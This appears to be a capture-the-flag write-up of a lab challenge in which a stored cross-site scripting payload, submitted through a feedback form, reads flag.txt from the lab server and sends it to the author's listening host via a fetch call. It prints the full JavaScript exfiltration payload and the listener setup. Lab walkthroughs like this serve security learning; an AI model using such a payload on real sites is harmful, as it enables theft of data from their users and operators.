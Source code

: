 ## Target Info
http://10.10.197.209:8080

## Mission
Steal the contents of http://10.10.197.209:8080/flag.txt

## Performance

### Go to http://10.10.197.209:8080/flag.txt
The result is 401 unauthorized. 

### Browse the site homepage and discover a “Feedback” link
The feedback page presents a simple textarea and “Submit” button, with no input sanitization.

### Craft the XXS payload
The script will read the local /flag.txt file and send it to the attacker host aka my machine.

    <script>
    fetch('http://127.0.0.1:8080/flag.txt')
      .then(response => response.text())
      .then(data => {
        fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
      });
    </script>

What is the code trying to do?
- Fetch the flag: fetch('http://127.0.0.1:8080/flag.txt') makes an HTTP request to http://127.0.0.1:8080/flag.txt to retrieve the contents of “flag.txt.”

- Read the response as text: Once the request succeeds, .then(response => response.text()) extracts the body of the response as plain text (stored in the variable data).

- Send the flag to my machine: finally, the snippet attempts to send that text (data) to http://10.10.15.220:7000/ by adding it as a query parameter in the URL: fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
- Using encodeURIComponent(...) ensures special characters (like spaces or symbols) in data are properly encoded so they don’t break the URL.

### Set up the listener (a simple HTTP server) on my machine

    root@ip-10-10-15-220:~# python3 -m http.server 7000
    Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
    10.10.197.209 - - [4/May/2025 21:31:24]

The Python HTTP server command prints every incoming GET request (including its full URL and query string) to my terminal so I can see the exfiltrated flag.

### Submit the payload

Copy and paste the payload into the feedback textarea => Click Submit.

### Find the flag

After submitting the script, the listener will recieve the flag!
